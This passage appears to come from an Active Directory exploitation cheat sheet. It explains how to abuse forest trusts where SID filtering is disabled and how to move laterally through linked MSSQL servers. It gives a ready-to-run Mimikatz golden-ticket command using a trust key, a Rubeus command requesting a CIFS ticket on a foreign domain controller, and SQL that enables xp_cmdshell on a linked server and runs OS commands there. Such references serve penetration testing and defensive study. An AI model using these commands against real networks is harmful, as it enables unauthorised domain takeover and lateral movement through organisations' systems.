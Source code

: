 In some cases, it is possible that SID filtering (the protection causing the above), is _disabled_ between forests. If you run `Get-DomainTrust` and you see the `TREAT_AS_EXTERNAL` property, this is the case! In this case, you can abuse the forest trust like a domain trust, as described above. Note that you still can _NOT_ forge a ticket for any SID between 500 and 1000 though, so you can’t become DA (not even indirectly through group inheritance). In this case, look for groups that grant e.g. local admin on the domain controller or similar non-domain privileges. For more information, refer to [this blog post](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/).

To impersonate a user from our source domain to access services in a foreign domain, we can do the following. Extract inter-forest trust key as in [‘Using domain trust key’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#using-domain-trust-key) above.

Use Mimikatz to generate a TGT for the target domain using the trust key:

```
Kerberos::golden /user:Administrator /service:krbtgt /domain:currentdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /target:targetdomain.com /rc4:fe8884bf222153ca57468996c9b348e9 /ticket:ticket.kirbi
```

Plaintext

Then, use Rubeus to ask a TGS for e.g. the `CIFS` service on the target DC using this TGT.

```powershell
.\Rubeus.exe asktgs /ticket:c:\ad\tools\eucorp-tgt.kirbi /service:CIFS/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
```

PowerShell

Now we can use the CIFS service on the target forest’s DC as the DA of our source domain (again, as long as this trust was configured to exist).

#### Abusing MSSQL databases for lateral movement <a href="#abusing-mssql-databases-for-lateral-movement" id="abusing-mssql-databases-for-lateral-movement"></a>

MSSQL databases can be linked, such that if you compromise one you can execute queries (or even OS commands!) on other databases in the context of a specific user (`sa` maybe? 😙). If this is configured, it can even be used to traverse Forest boundaries! If we have SQL execution, we can use the following commands to enumerate database links.

```sql
-- Find linked servers
EXEC sp_linkedservers

-- Run SQL query on linked server
select mylogin from openquery("TARGETSERVER", 'select SYSTEM_USER as mylogin')

-- Enable 'xp_cmdshell' on remote server and execute commands, only works if RPC is enabled
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT TARGETSERVER
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT TARGETSERVER
EXEC ('xp_cmdshell ''whoami'' ') AT TARGETSERVER
```
